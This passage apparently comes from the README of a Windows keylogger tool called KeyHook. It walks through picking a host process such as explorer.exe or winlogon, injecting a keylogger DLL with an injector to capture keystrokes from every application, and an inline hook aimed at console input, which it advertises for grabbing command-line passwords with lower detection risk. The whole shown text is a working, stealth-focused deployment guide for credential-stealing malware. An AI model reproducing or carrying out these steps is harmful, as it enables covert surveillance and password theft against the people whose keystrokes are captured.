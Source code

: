 **Recommended: `explorer.exe` (most stable)**
```powershell
Get-Process explorer | Select-Object Id,ProcessName
```

**Alternative host processes:**
```powershell
# Other stable processes you could use
Get-Process notepad | Select-Object Id,ProcessName     # If Notepad is open
Get-Process winlogon | Select-Object Id,ProcessName   # System process (requires admin)
```

**Output example:**
```
   Id ProcessName
   -- -----------
12345 explorer
```

**Important:** The PID is only used to choose **where our code runs**, not **what keys we capture**. The keylogger will capture system-wide keystrokes regardless of which process hosts it.

### Step 2: Inject Keylogger

Inject the keylogger DLL into the **host process** (this only determines where our code runs):

```powershell
.\built\injector.exe 12345 "C:\full\path\to\KeyHook\built\keylogger.dll"
```

**Expected output:**
```
DLL injected successfully.
```

**Note:** Once injected, the keylogger will capture keystrokes from **all applications system-wide**, not just from the host process.

### Alternative: Process-Specific Console Monitoring

For **targeted console monitoring** instead of system-wide capture, use the inline hook:

```powershell
# Step 1: Get target console process
Get-Process cmd | Select-Object Id,ProcessName        # Command Prompt
Get-Process powershell | Select-Object Id,ProcessName # PowerShell
Get-Process sqlcmd | Select-Object Id,ProcessName     # SQL Console

# Step 2: Inject inline hook for console-only monitoring
.\built\injector.exe <console_PID> "C:\full\path\to\KeyHook\built\inlinehook.dll"
```

**Console Hook Benefits:**
- ✅ **Precision**: Only console input (commands, passwords in CLI)
- ✅ **Stealth**: Lower detection risk than global hooks
- ✅ **Performance**: Minimal system impact
- ✅ **Targeted**: Focus on specific applications/workflows
